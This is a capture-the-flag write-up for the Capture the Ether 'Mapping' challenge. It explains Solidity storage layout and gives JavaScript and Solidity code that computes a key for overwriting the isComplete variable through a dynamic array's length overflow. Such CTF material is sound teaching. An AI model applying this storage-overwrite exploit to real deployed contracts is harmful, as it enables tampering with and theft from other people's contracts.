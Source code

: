 # Mapping

## Required Concepts

According to the [Solidity docs](https://solidity.readthedocs.io/en/v0.4.20/miscellaneous.html#layout-of-state-variables-in-storage), static variables are stored in the order they are declared, starting at ```0```. The storage system in Ethereum is most easily understood as a very large array. Memory locations in Ethereum are called slots. Each Ethereum smart contract has ```2**256``` slots. Each slot maps to a 32 byte value. All slots are initially set to ```bytes32(0)```.

Dynamically sized arrays are stored a little differently to account for the uncertain amount of storage that might be needed throughout the life of the smart contract. For this reason, dynamic arrays (with the exception of ```byte``` arrays and ```strings```; see the docs) only occupy one slot when they are declared. The difference is that this slot is only occupied by the current ```length``` of the dynamically sized array. The actual storage location for the contents of this value type is then determined by the ```keccak256``` hash of the dynamic array's slot position. Each element within the array is stored sequentially starting with that hash value. As an example, if the dynamic array was the third variable to be declared then each item would be stored sequentially from the ```keccak256``` hash of ```bytes32(2)```.

For more on this topic check out this [multi-part series on Ethereum's Virtual Machine](https://blog.qtum.org/diving-into-the-ethereum-vm-6e8d5d2f3c30).

The order in which variables are declared can also affect the number of slots used when the Solidity code is compiled. Given that one slot is 32 bytes, if 4 variables are declared in this order:
```
uint256 a;
uint128 b;
uint256 c;
uint128 d;
```
These 4 variables will occupy 4 slots. But when rearranged like this:
```
uint256 a;
uint128 b;
uint128 d;
uint256 c;
```
They only take up 3 slots because the two uint128 variables are packed into one slot.

This implies that the order of variable declaration in Solidity matters.

From what we already know about an Ethereum smart contract's storage, we can deduce that the max length of a dynamic array would be the max allowable value of the smart contract's own storage array. The max slot of the storage area is ```2**256 - 1``` so the max size of a dynamic array would be ```2**256 - 1```. If this were the case, the dynamic array would then have the ability to point and re-write over any variable in contract storage given that the location of the target variable is known.

## Challenge
Source: https://capturetheether.com/challenges/math/mapping/
>Who needs mappings? I’ve created a contract that can store key/value pairs using just an array.
```
pragma solidity ^0.4.21;

contract MappingChallenge {
    bool public isComplete;
    uint256[] map;

    function set(uint256 key, uint256 value) public {
        // Expand dynamic array as needed
        if (map.length <= key) {
            map.length = key + 1;
        }

        map[key] = value;
    }

    function get(uint256 key) public view returns (uint256) {
        return map[key];
    }
}
```

## Solution

Exploiting the dynamic array is the key to this puzzle. The ```set``` function gives the participant the ability to expand the array to any size and set the value at that position. For more info on this exploit, check out: https://github.com/Arachnid/uscc/tree/master/submissions-2017/doughoyte

To solve this puzzle, we must find the location of our target key-value pair: ```isComplete```. The value of an unset variable is ```0``` (```false```). We need to set it to ```1``` (```true```). Using Javascript:
```
const webThree = require('web3');
const bn = require('bn.js');

let web3 = new webThree(new webThree.providers.HttpProvider(
  'https://ropsten.infura.io/APIKEY'
));

// following values are uint256 hex encoded
// slot = 1
let slot = '0x0000000000000000000000000000000000000000000000000000000000000001';
// index = 0
let index = '0x0000000000000000000000000000000000000000000000000000000000000000';
// elementSide = 32
let elementSize = '0x0000000000000000000000000000000000000000000000000000000000000020';
// Value in memory we'd like to manipulate, targetMemoryLocation = 0
let targetMemoryLocation = '0x0000000000000000000000000000000000000000000000000000000000000000'

/*
key = 2**256 - keccak256(slot) + (index * elementSize) + targetMemoryLocation
key = 2**256 - keccak256(slot) + (0 * 32) + 0
key = 2**256 - keccak256(slot)
*/


let hashSlot = web3.utils.sha3(slot);
// return: 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6

// the calculation below is not accurate enough for our application
let maxUint = 2**256;
maxUint = maxUint.toString(10);
// return: 1.157920892373162e+77

// As you can see, Javascript sucks at big/little - endian values
// This library is a work around for this issue
let a = new bn('2', 10);
let b = new bn('256', 10);

let result = a.pow(b);
// return: "115792089237316195423570985008687907853269984665640564039457584007913129639936"

// strip hex prefix and create a big number from the sha3 hash
hashSlot = new bn(hashSlot.substring(2), 16);

let key = result.sub(hashSlot);
// return: 35707666377435648211887908874984608119992236509074197713628505308453184860938

// convert to hex:
key = web3.utils.toHex(key);
// return: 0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a
```

Alternatively, we can use this solidity contract to do the same thing:
```
pragma solidity ^0.4.24;

contract cove {
   // arrLocation(1,0,32,2,0)
   function arrLocation(uint256 slot, uint256 index, uint256 elementSize, uint256 _two, uint256 _targetMemoryLocation)
    public
    view
    returns (bytes32)
    {
        return bytes32((_two ** 256) - uint256(keccak256(slot)) + (index * elementSize) + _targetMemoryLocation);
    }
}
```
This also returns (base 16):
```
"0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a"
```
or (base 10):
```
"35707666377435648211887908874984608119992236509074197713628505308453184860938"
```

To solve this puzzle call the ```set``` function, to re-assign the ```isComplete``` value to ```true```.

* set(key,value), where...
```
key = "0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a"
value = 1
```
